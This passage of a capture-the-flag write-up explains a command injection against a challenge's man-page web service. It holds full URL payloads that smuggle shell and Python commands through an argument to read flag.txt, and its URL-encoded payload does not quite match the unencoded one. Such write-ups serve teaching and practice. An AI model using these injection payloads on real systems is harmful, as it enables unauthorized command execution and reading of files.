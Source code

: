 > Note: `PATH` and `PWD` are well-known environment and shell variables. You can check out more common variables [here](https://www.digitalocean.com/community/tutorials/how-to-read-and-set-environmental-and-shell-variables-on-linux#common-environmental-and-shell-variables) but I prefer just executing the `env` command in the docker container to see what's available.

I can determine that `PWD` is `/app`. So if I do `${PWD%app}`, this will result in just `/`. The final payload is here:

```
http://challenges.oceaniacc.com:5001/$/--html=cat${PWD%app}flag.txt/man
```

URL Encoded:

```
http://challenges.oceaniacc.com:5001/$/--html=cat%20$%7BPWD%7Dflag.txt/man
```

![Final Payload](./final_payload.png)

At the very top is our lovely flag!

```
oiccflag{i_wish_i_did_this_more_securely_10a287eb}
```

### Other command injection payloads

I wanted to note a few other payloads that were posted in the discord which I thought were interesting.

#### Python

![Python Payload](./python_payload.png)

```
http://127.0.0.1:1337/-1/-Hpython%20-c%20'print(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read())'%20%23/man
```
